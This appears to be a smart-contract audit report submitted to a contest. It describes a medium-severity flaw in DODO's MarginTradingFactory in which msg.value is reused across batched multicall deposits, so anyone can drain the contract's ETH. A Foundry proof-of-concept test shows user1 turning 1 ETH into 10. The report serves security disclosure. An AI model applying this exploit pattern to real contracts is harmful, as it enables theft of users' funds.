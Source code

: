 evilakela

medium

# Anyone can steal ETH from MarginTradingFactory using multicall

## Summary
Anyone can steal ETH from `MarginTradingFactory` using multicall

## Vulnerability Detail
`MarginTradingFactory.cleanETH` can call only owner, but restiction can be bypassed using `MarginTradingFactory.multicall` because of using `msg.value` in cycle in `MarginTradingFactory.depositMarginTradingETH`: ETH sended only once, but `msg.value` used in each `depositMarginTradingETH` call in multicall

### PoC
```solidity
    function test_POC_multicall() public {
        vm.deal(address(marginTradingFactory), 9 ether);
        vm.deal(user1, 1 ether);

        assertEq(address(marginTradingFactory).balance, 9 ether);
        assertEq(address(user1).balance, 1 ether);

        vm.startPrank(user1);
        address mt = marginTradingFactory.createMarginTrading(2, new bytes(0), new bytes(0));
        bytes[] memory data = new bytes[](10);
        for (uint i; i < 10; ++i) { 
            data[i] = abi.encodeWithSelector(
                marginTradingFactory.depositMarginTradingETH.selector,
                mt, 
                false,
                0
            );
        }
        marginTradingFactory.multicall{value: 1 ether}(data);
        IMarginTrading(mt).withdrawETH(false, 10 ether, 0);
        vm.stopPrank();

        assertEq(address(marginTradingFactory).balance, 0);
        assertEq(address(user1).balance, 10 ether);
    }
```

## Impact
See summary

## Code Snippet
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L74-L87
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L203-L211

## Tool used
Manual Review

## Recommendation
Require that balance after multicall >= balance befoe